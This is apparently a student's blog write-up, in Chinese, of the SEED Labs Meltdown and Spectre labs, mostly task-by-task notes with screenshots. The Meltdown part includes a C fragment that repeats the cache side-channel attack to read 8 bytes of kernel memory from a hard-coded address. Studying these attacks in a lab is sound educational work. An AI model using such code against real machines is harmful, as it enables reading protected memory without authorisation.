 ```yaml
---
title: "SeedLab MeltDown"
subtitle: "不会有人没做过seedlab吧"
layout: post
author: "Zhuhai"
header-style: text
tags:
  - seedlabs
---
```


## Lab 2 MeltDown

### Task 1: Reading from Cache versus from Memory
根据实验提示，我们可以看见，已经存储在 CPU cache 中的数据访问为60 CPU cycles 左右,而访问主存中的数据则在250 CPU cycles 左右：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102242149.png)

### Task 2: Using Cache as a Side Channel
通过实验原理，提前访问过的元素将存储在 CPU cache 中，我们可以轻松地通过时间不同将其分辨：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102242396.png)

### Task3: Place Secret Data in Kernel Space
根据实验，已经提前给了我们 secret 的地址，我们只需要提前使用一次 secret  将其存入 CPU cache，然后通过时间差得出：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102243977.png)

### Task4: Access Kernel Memory from User Space
显而易见地，我们编写 test.c，填上刚刚获得的 secret 地址，成功地失败了：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102258542.png)
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102244599.png)

###  Task 5: Handle Error/Exceptions in C

通过课堂讲解和实验原理，我们可以在没有 try-catch 组件的 C 语言中利用 signal 函数构造出类似场景，运行代码结果如下，确实避免了同 Task4 的一样的系统报错：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102258922.png)

### Task 6: Out-of-Order Execution by CPU
根据实验原理，通过 Task 1 & 2 & 5 我们可以实现一次 Meltdown 的攻击实验，在乱序执行的漏洞下，将秘密信息存入 CPU cache 中，通过 cache 和 main memory 的访问时间不同来识别：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102258552.png)

### Task 7: The Basic Meltdown Attack

####  Task 7.1: A Naive Approach
将 7 换成 kernel_data 后，无法运行,原因是乱序执行速度没跑过 access check 的速度：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102259907.png)

####  Task 7.2: Improve the Attack by Getting the Secret Data Cached

在乱序执行前加上一个读写文件的操作以此想让乱序执行更快，但仍然起不到作用：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102259129.png)

####  Task 7.3: Using Assembly Code to Trigger Meltdown

再通过添加 asm 代码，开始有机会赢了这场赛跑：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102259285.png)

### Task 8: Make the Attack More Practical

通过运行代码，我们可以看到，secret 的值的统计次数为接近1000：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102259711.png)

简单修改代码，使其输出8 byte 的秘密信息：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102300242.png)
代码如下，主要修改了 main.c ，将其循环8次，并重置scores数组即可。
```c

int getsecret(int add)
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }
  
  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
	  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
	ret = pread(fd, NULL, 0, 0);
	if (ret < 0) {
	  perror("pread");
	  break;
	}
	
	// Flush the probing array
	for (j = 0; j < 256; j++) 
		_mm_clflush(&array[j * 4096 + DELTA]);

	if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(add); }

	reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
	if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return max;
}

int main(){
	int add = 0xf9175000;
	int max[8]={0};
	for(int i=0;i<8;i++){
		max[i]=getsecret(add+i);
		for(int j=0;j<256;j++) scores[j]=0;
	}
	printf("The secret 8 byte value is %c%c%c%c%c%c%c%c\n",max[0],max[1],max[2],max[3],max[4],max[5],max[6],max[7])
}
```

结果为 `SEEDlabs`。

## Spectre

### Task 1: Reading from Cache versus from Memory

通过运行所给代码，我们可以看出 Cache 和 Memory 的读取时间差别很大：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102216675.png)

### Task 2: Using Cache as a Side Channel

将 `CACHE HIT THRESHOLD` 设为200，运行代码可以得到：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102242453.png)

###  Task 3: Out-of-Order Execution and Branch Prediction
运行实验所给代码，有：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102300313.png)
- Comment out the line marked with ✰ and execute again. Explain your observation. After you are
done with this experiment, uncomment it, so the subsequent tasks are not affected.
- Replace Line ➃ with victim(i + 20); run the code again and explain your observation.

对于以上两个任务，修改后，发现都无法正常输出原结果，第一个是因为未清除缓存，无法判断；第二个是因为无法进入 IF ,无法乱序执行:
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102300680.png)

### Task 4: The Spectre Attack

通过更改实验代码，多次运行，发现由于侧噪声过多，效果不好，最好的一次获取了前三个Secret:
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102300452.png)

### Task 5: Improve the Attack Accuracy & Task 6: Steal the Entire Secret String

更改休眠时间为5，结果出错：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102300332.png)
更改休眠时间为15，结果正确：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102300043.png)

另外由于使用的是16版本的内核，故星号不影响结果。

问题：在hit单个字符时hit值很大，多字符时却很小，更改HIT变量也没有好转。

故最后结果为`Some Secret Value`。